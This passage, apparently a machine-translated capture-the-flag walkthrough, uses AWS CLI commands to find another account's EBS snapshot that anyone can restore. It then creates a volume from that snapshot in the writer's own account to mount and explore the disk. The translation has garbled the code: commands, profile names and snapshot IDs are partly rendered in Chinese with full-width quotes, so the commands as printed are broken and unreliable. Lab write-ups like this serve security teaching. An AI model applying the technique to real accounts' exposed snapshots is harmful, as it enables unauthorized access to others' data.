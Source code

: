             〜$ aws ec2 describe-snapshots --filters“名稱= volume-id，值= vol-04f1c039bc13ea950” --profile缺陷
            {
                “快照”：[
                    {
                        “描述”：“”，
                        “標籤”：[
                            {
                                “ Value”：“缺陷備份2017.02.27”，
                                “鍵”：“名稱”
                            }
                        ]，
                        “已加密”：false，
                        “ VolumeId”：“ vol-04f1c039bc13ea950”，
                        “狀態”：“已完成”，
                        “ VolumeSize”：8
                        “ StartTime”：“ 2017-02-28T01：35：12.000Z”，
                        “進度”：“ 100％”，
                        “ OwnerId”：“ 975426262029”，
                        “ SnapshotId”：“快照0b49342abd1bdcb89”
                    }
                ]
            }

現在讓我們在快照上檢查`createVolumePermission`：

            〜$ AWS EC2 describe-snapshot-attribute --snapshot-id snap-0b49342abd1bdcb89 --attribute createVolumePermission --profile缺陷
            {
                “ SnapshotId”：“快照0b49342abd1bdcb89”，
                “ CreateVolumePermissions”：[
                    {
                        “ Group”：“全部”
                    }
                ]
            }

糟糕！任何人都可以基於此快照創建卷。

讓我們嘗試在我們自己的AWS賬戶中從該快照創建一個卷，以便我們可以使用它通過我們自己的SSH密鑰對啟動EC2實例並四處探尋。

            AWS EC2創建卷--region us-west-2 --availability-zone us-west-2a --snapshot-id snap-0b49342abd1bdcb89
            
            {
                  <snip>
                  “狀態”：“正在創建”
                  <snip>
            }
            
看起來挺好的！

            AWS EC2描述卷
            
            {
                  <snip>
                  “ VolumeId”：“ vol-0a8f64220765bd28a”
                  “狀態”：“可用”
                  <snip>
            }            
            